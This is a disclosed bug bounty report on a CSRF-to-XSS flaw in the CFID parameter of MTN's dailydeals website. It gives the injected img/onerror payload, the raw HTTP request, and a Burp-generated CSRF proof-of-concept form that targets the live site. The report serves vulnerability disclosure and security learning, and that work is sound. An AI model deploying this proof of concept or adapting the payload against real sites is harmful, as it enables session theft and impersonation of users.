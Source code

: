 # Cross-Site Request Forgery (CSRF) to xss

## Report Details
- **Report ID**: 1183241
- **URL**: https://hackerone.com/reports/1183241
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-05-03T19:06:17.167Z
- **Disclosed**: 2022-10-30T21:54:55.304Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
hello dear support

i have found csrf to xss on https://dailydeals.mtn.co.za/index.cfm?GO=DEALS

URL:https://dailydeals.mtn.co.za/index.cfm?GO=DEALS

URL encoded POST input CFID was set to fbe8c86c-c0b2-4421-8ca2-dcfc14763d6e"><img src=x onerror=alert(document.domain)>

HTTP request
============
POST /index.cfm?GO=DEALS HTTP/1.1
Host: dailydeals.mtn.co.za
Cookie: EBSAuthCookie=15302|||N; TS011bbda7=014f25e894c21e6b965792d5df17dd4ba82e1424b80a3aa2fbd660ae991db17501f4bbd59e45568e30ca4fffd17a7b0b225c8e53dd; cfid=3283cef9-4136-403d-ae30-fa9a875b1da3; cftoken=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Origin: https://dailydeals.mtn.co.za
Referer: https://dailydeals.mtn.co.za/index.cfm?GO=DEALS
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

CFID=fbe8c86c-c0b2-4421-8ca2-dcfc14763d6e%22%3E%3Cimg+src%3Dx+onerror%3Dalert%28document.domain%29%3E&CFTOKEN=0&category_id=9&cpID=1&location_id=0&m=1


Csrf Poc
=========

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://dailydeals.mtn.co.za/index.cfm?GO=DEALS" method="POST">
      <input type="hidden" name="CFID" value="fbe8c86c&#45;c0b2&#45;4421&#45;8ca2&#45;dcfc14763d6e&quot;&gt;&lt;img&#32;src&#61;x&#32;onerror&#61;alert&#40;document&#46;domain&#41;&gt;" />
      <input type="hidden" name="CFTOKEN" value="0" />
      <input type="hidden" name="category&#95;id" value="9" />
      <input type="hidden" name="cpID" value="1" />
      <input type="hidden" name="location&#95;id" value="0" />
      <input type="hidden" name="m" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

## Impact

Malicious JavaScript has access to all the same objects as the rest of the web page, including access to cookies and local storage, which are often used to store session tokens. If an attacker can obtain a user's session cookie, they can then impersonate that user.

Furthermore, JavaScript can read and make arbitrary modifications to the contents of a page being displayed to a user. Therefore, XSS in conjunction with some clever social engineering opens up a lot of possibilities for an attacker

## Attachments
No attachments

